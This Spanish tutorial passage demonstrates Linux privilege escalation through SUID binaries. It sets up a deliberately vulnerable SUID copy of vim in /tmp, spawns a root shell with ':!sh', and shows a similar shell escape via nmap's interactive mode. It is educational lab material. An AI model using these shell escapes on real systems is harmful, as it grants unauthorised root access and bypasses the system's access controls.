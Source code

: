 
### 🧪 DEMO: Escalada de privilegios con binarios (ejemplo real)

#### 🎯 Objetivo:

Aprovechar que el binario `vim` tiene el bit SUID activado y **abrir una shell root**.

---

#### 🔧 PASO 1: Crear un binario vulnerable con SUID

Estando como root:

```bash
cp /usr/bin/vim /tmp/vim
chmod u+s /tmp/vim
chown root:root /tmp/vim
```

Esto crea un binario de `vim` que **se ejecuta como root**.

---

#### 🔧 PASO 2: Como usuario sin privilegios, ejecutamos `vim`

```bash
/tmp/vim -c ':!sh'
```

Esto abre una shell. Ahora probamos:

```bash
whoami
```

✅ Resultado:

```
root
```

¡Acabas de escalar privilegios usando un binario vulnerable!

---

### 💡 Otro ejemplo: Escalada con `nmap`

Si `nmap` tiene SUID (esto es raro, pero puede pasar), puedes hacer:

```bash
nmap --interactive
```

Y luego dentro del intérprete de nmap:

```bash
!sh
```
